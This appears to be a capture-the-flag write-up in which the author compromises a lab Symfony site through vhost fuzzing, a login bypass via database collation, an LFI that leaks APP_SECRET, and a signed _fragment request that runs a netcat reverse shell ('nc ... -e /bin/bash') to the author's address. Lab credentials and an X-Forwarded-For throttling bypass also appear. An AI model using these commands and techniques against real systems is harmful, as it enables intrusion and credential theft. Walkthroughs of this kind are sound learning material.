# HTTP

Now after adding the FQDN to my local hosts file showing the followig site:



And checking the Wappalizer I can see that the site must be running a PHP framework of some sort:  


Now I will not try to perform a directory fuzzing as I remeber the first time seeing that there was a throttle limiting so I will check for possible hidden VHOSTS on the server unveiling the following internal site as well.

```bash
└─$ ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://hackfail.htb -H "Host:FUZZ.hackfail.htb" -fl 369

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://hackfail.htb
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.hackfail.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response lines: 369
________________________________________________

dev                     [Status: 200, Size: 37579, Words: 18824, Lines: 660, Duration: 47ms]
:: Progress: [4989/4989] :: Job [1/1] :: 558 req/sec :: Duration: [0:00:10] :: Errors: 0 ::

```

Now the site looks exactly the same but here is where (honestly) I had to check for tips and apparently the trick here was to use a custom tool from the Synackiv.



And this tool actually it can be used to footprint is the backend PHP framework used is Symphony:  


And we can appure that there is a old and vulnerable framework to a PHAR deserialization(Synfony 5.2.3), it is also possible to see the APP_SECRET from the *phpinfo()* file as well.



Now again here is where I asked for another nudge and apparenly the trick here is to read the source codes from the dev page:



```php
└─$ eos get http://dev.hackfail.htb src/Controller/AdminController.php
<?php
// src/Controller/AdminController.php
namespace App\Controller;

use Symfony\Bundle\FrameworkBundle\Controller\AbstractController;
use Symfony\Component\HttpFoundation\Response;
use Symfony\Component\Routing\Annotation\Route;

class AdminController extends AbstractController
{

 /**
     * @Route("/changelog")
    */
 public function changelog()
    {
        include("antibf.php");
 session_start();
        include("dbconfig.php");
        if(isset($_SESSION["auth"]))
        {
 $stmt=$conn->prepare('select username from users where username=?');
 $stmt->bind_param("s",$_SESSION["auth"]);
 $stmt->execute();
 $result=$stmt->get_result();
 $row=$result->fetch_assoc();
            if($row['username']==='elonmusk')
            {
                return $this->render('admin/changelog.html.twig', [
 "user" => $_SESSION["auth"],
        ]);
            }
            else
            {
                return $this->render('user/restrict.html.twig', [
 "message" => "Restricted to Administrators."
 ]);
            }
        }
        else
        {
            return $this->render('user/restrict.html.twig', []);
        }
    }
 /**
     * @Route("/tickets", methods={"POST"})
    */
 public function preview_tickets(){
        include("antibf.php");
 session_start();
        include("dbconfig.php");
        if(isset($_SESSION["auth"]))
        {
 $stmt=$conn->prepare('select username from users where username=?');
 $stmt->bind_param("s",$_SESSION["auth"]);
 $stmt->execute();
 $result=$stmt->get_result();
 $row=$result->fetch_assoc();
            if($row['username']==='elonmusk')
            {
 $target_dir = "/var/www/blog_dev/uploads/";
 $target_file = $target_dir . $_FILES["document"]["name"];
 move_uploaded_file($_FILES["document"]["tmp_name"], $target_file);
 $c = md5($target_file);
                return $this->render('admin/ticket-preview.html.twig', [
 "message" => "Preview ticket",
 "content" => $_REQUEST['content'],
 "file" => $_FILES["document"]["name"],
 "c" => $c,
 "user" => $_SESSION["auth"],
                ]);
            }
            else
            {
                return $this->render('user/restrict.html.twig', [
 "message" => "Restricted to Administrators."
 ]);
            }
        }
        else
        {
            return $this->render('user/restrict.html.twig', []);
        }
    }

 /** 
     * @Route("/download", methods={"GET"})
    */
 public function download()
    {

        include("antibf.php");
 session_start();
        include("dbconfig.php");
        if(isset($_SESSION["auth"]))
        {
 $stmt=$conn->prepare('select username from users where username=?');
 $stmt->bind_param("s",$_SESSION["auth"]);
 $stmt->execute();
 $result=$stmt->get_result();
 $row=$result->fetch_assoc();
            if($row['username']==='elonmusk')
            {
 $file_storage = "/var/www/blog_dev/uploads/";
                if(isset($_GET['c']) && !is_null($_GET['c'] && isset($_GET['file']) && !is_null($_GET['file'])))
                {
 $fullpath = $file_storage.$_GET['file'];
                    if(file_exists($fullpath))
                    {
                        if(md5($fullpath) === $_GET['c'])
                        {
                            echo file_get_contents($fullpath);
                        }
                        else
                        {
                            return $this->render('admin/tickets.html.twig', ["user" => $_SESSION["auth"],]);
                        }
                    }
                    else
                    {
                        return $this->render('admin/tickets.html.twig', ["user" => $_SESSION["auth"],]);
                    }
                }
                else
                {
                    return $this->render('admin/tickets.html.twig', ["user" => $_SESSION["auth"],]);
                }
                return $this->render('admin/tickets.html.twig', ["user" => $_SESSION["auth"],]);
            }
            else
            {
                return $this->render('user/restrict.html.twig', [
 "message" => "Restricted to Administrators."
 ]);
            }
        }
        else
        {
            return $this->render('user/restrict.html.twig', []);
        }
    }

 /** 
     * @Route("/tickets", methods={"GET"})
    */
 public function tickets()
    {

        include("antibf.php");
 session_start();
        include("dbconfig.php");
        if(isset($_SESSION["auth"]))
        {
 $stmt=$conn->prepare('select username from users where username=?');
 $stmt->bind_param("s",$_SESSION["auth"]);
 $stmt->execute();
 $result=$stmt->get_result();
 $row=$result->fetch_assoc();
            if($row['username']==='elonmusk')
            {
                return $this->render('admin/tickets.html.twig', ["user" => $_SESSION["auth"],]);
            }
            else
            {
                return $this->render('user/restrict.html.twig', [
 "message" => "Restricted to Administrators."
 ]);
            }
        }
        else
        {
            return $this->render('user/restrict.html.twig', []);
        }
    }

 /**
     * @Route("/manage")
     */
 public function manage()
    {
        include("antibf.php");
 session_start();
        include("dbconfig.php");
        if(isset($_SESSION["auth"]))
        {
 $stmt=$conn->prepare('select username from users where username=?');
 $stmt->bind_param("s",$_SESSION["auth"]);
 $stmt->execute();
 $result=$stmt->get_result();
 $row=$result->fetch_assoc();
            if($row['username']==='elonmusk')
            {
                return $this->render('admin/admin.html.twig', [
 "user" => $_SESSION["auth"],
                ]);
            }
            else
            {
                return $this->render('user/restrict.html.twig', [
 "message" => "Restricted to Administrators."
 ]);
            }
        }
        else
        {
            return $this->render('user/restrict.html.twig', []);
        }

    }

 /**
     * @Route("/logout")
     */
 public function logout()
    {
 session_start();
 session_destroy();
        return $this->redirect('/');
    }

}

```

Now the issue is that apparently if the username matches "elonmusk" then you should be able to get access to the admin portal? But seems like it is not possible since the user is already registered;



Now here is where I think it is very fucked up, because even if the PHP is performing a "strict" comparing, aka no party here as the string and the value type must match:



Now apparently the issue is that the DB collation doesn´t actually care at all about the case insensitivity of the code despite the PHP instead being strict of it, which means that if I use "Elonmusk" I will be able to bypass it:


And now I have access to the admin portal, where the only interesting part here is the ticketing function:



And here I was trying really hard to upload a malicious PHAR file to invoke a serialization via a *file_exist()* function here without success.



Apparently the trick here(again had to check for tips with AI) is to abuse a LFI, because the code upload what it does:

- Request the specific file name
- It is hardcoded to be saved under the path */var/www/blog_dev/uploads.*
- It checks that the fullpath of the file matches the MD5 and here is the reason why it failed to execute a phar deserialization.

I asked AI to give me a working python exploit that performs a LFI and prints the result and this is the code so far:



And here after many test I came to the conclusion that there is also the prod site:



And counting that the PROD site only had the fragment active I must be try to get a RCE via that way somehow... (see [here](https://blog.lexfo.fr/symfony-secret-fragment.html))



But for that i need to obtain the secret key(I have the one for the DEV but it is pointless since it requires for PROD) and asking the AI I could be able to obtain from the environmental files:

```bash
┌──(millycash㉿kali-bello)-[~/Downloads/Synacktiv]
└─$ python3 exploit_lfi.py "../../../../var/www/blog/public/.env"                        
[!] File appears empty or MD5 mismatch.
                                                                                                                                                               
┌──(millycash㉿kali-bello)-[~/Downloads/Synacktiv]
└─$ python3 exploit_lfi.py "../../../../var/www/blog/.env"      
--- DATA FROM: ../../../../var/www/blog/.env ---
# In all environments, the following files are loaded if they exist,
# the latter taking precedence over the former:
#
#  * .env                contains default values for the environment variables needed by the app
#  * .env.local          uncommitted file with local overrides
#  * .env.$APP_ENV       committed environment-specific defaults
#  * .env.$APP_ENV.local uncommitted environment-specific overrides
#
# Real environment variables win over .env files.
#
# DO NOT DEFINE PRODUCTION SECRETS IN THIS FILE NOR IN ANY OTHER COMMITTED FILES.
#
# Run "composer dump-env prod" to compile .env files for production use (requires symfony/flex >=1.2).
# https://symfony.com/doc/current/best_practices.html#use-environment-variables-for-infrastructure-configuration

###> symfony/framework-bundle ###
APP_ENV=prod
APP_SECRET=8c780d40a55d81caf1583f1de0bfede3
###< symfony/framework-bundle ###
--------------------------------

```

Now everything should be fine to perform a code execution right?

```bash
┌──(millycash㉿kali-bello)-[~/Downloads/Synacktiv/symfony-exploits]
└─$ python3 symfony-secret-fragments-v2.py 'http://hackfail.htb/_fragment' --secret '8c780d40a55d81caf1583f1de0bfede3' --algo sha256 --internal-url 'http://hackfail.htb/_fragment' --method 2 --function system --arguments 'nc 10.10.14.164 4444 -e /bin/bash' 

──────────────────────────────────────────────────────────────────────────── Setup ────────────────────────────────────────────────────────────────────────────

[*] No setup required

───────────────────────────────────────────────────────────────────────── Exploit URL ─────────────────────────────────────────────────────────────────────────

http://hackfail.htb/_fragment?_path=_controller%3DSymfony%255CComponent%255CErrorHandler%255CErrorHandler%253A%253Acall%26function%3Dsystem%26arguments%5B0%5D%3Dnc%2B10.10.14.164%2B4444%2B-e%2B%252Fbin%252Fbash&_hash=NhLj9JJZOIx29nojVwxnX5AxG8teyLaIjVdbgzHNIQo%3D

```

And we have a shell baby!



From here I was able to obtain a new set of fresh credentials from the MYSQL connetion:

```php
www-data@blog:/var/www/blog/public$ cat dbconfig.php
cat dbconfig.php
<?php
$conn = new mysqli('localhost','plop','plop_password_ofc','appli');
?>

```

Plus a quick look at the brute forcing limiter where the code can be seen here:

```php
www-data@blog:/var/www/blog/public$ cat antibf.php
cat antibf.php
<?php

include("dbconfig.php");
if(isset($_ENV['origin']))
{
    if($_ENV['origin'] === "appli")
    {
        $_ENV['origin'] = "";
        return;
    }
}
if(isset($_SERVER['HTTP_X_FORWARDED_FOR']) && !is_null($_SERVER['HTTP_X_FORWARDED_FOR']))
{
    $ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
}
else
{
    $ip = $_SERVER['REMOTE_ADDR'];
}

if ($ip !== "127.0.0.1")
{
    $time = $_SERVER['REQUEST_TIME_FLOAT'];
    $stmt=$conn->prepare('select id,count,timestamp from bans where remoteaddr=?');
    $stmt->bind_param("s",$ip);
    $stmt->execute();
    $result=$stmt->get_result();
    $rows=$result->fetch_all();
    if(count($rows) > 0)
    {
        foreach ($rows as $user) {
            if ($user[1] < 10)
            {
                if(floatval($time)-floatval($user[2]) < 0.25)
                {
                    $stmt=$conn->prepare('update bans set count = count + 1 , timestamp=?  where id=?');
                    $stmt->bind_param("di", $time, $user[0]);
                    $stmt->execute();
                }
                else
                {
                    $stmt=$conn->prepare('update bans set timestamp=?  where id=?');
                    $stmt->bind_param("di", $time, $user[0]);
                    $stmt->execute();
                }
            }
            else
            {
                if($time-$user[2] < 30)
        {
            require_once '/var/www/blog/vendor/autoload.php';
                    $loader = new \Twig\Loader\FilesystemLoader('/var/www/blog/templates/');
                    $twig = new \Twig\Environment($loader);
                    $template = $twig->load('block.html.twig');
                    echo $template->render([]);
                    exit();
                }
                else
                {
                    $stmt=$conn->prepare('update bans set count = 1 , timestamp=?  where id=?');
                    $stmt->bind_param("ii", $time, $user[0]);
                    $stmt->execute();
                }
            }
        }
    }
    else
    {
        $stmt=$conn->prepare('insert into bans (remoteaddr, timestamp,count) values(?,?,1)');
        $stmt->bind_param("ss", $ip, $time);
        $stmt->execute();
    }


}

?>

```

The bad part here is that if the body in the request uses "**HTTP_X_FORWARDED_FOR: 127.0.0.1**" this effectively bypasses the throttling allowing you to fuzz like you want!

